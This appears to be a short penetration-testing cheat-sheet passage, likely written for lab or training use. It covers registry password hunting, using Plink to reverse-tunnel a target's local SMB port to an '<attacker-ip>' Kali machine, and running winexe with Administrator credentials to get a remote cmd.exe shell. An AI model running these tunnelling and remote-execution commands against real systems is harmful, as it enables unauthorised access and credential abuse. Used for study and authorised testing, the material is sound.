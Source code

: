 Use **Password Hunting** in the Registry.

>[!Note] Registry Password Hunting
>Password Hunting in the Registry is usually faster than searching through all files on the system.
>Consider doing it first.

# Plink

Plink Download - [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

In our case the target machine has an open port 445 that is only exposed locally.
In order to access the port from our Kali machine we can use Plink similar to SSH to port forward that port.

1) On the kali machine start an SSH server.
2) Run plink on the target machine (Usage: https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html):
```cmd
plink.exe -l <username> -pw <password> -R 445:127.0.0.1:445 <attacker-ip>
```
3) Now you should be logged in to your kali machine over SSH (might need to hit enter a few times)
4) Check that port 445 is accessible:
```cmd
netstan -ano | grep 445
```

# Winexe

https://www.kali.org/tools/winexe/
Winexe remotely executes commands on Windows NT/2000/XP/2003 systems.

We can run winexe against the forwared port 445:
```cmd
winexe -U Administrator&Welcome1! //127.0.0.1 "cmd.exe"
```
Might need to hit enter a few times to see the prompt.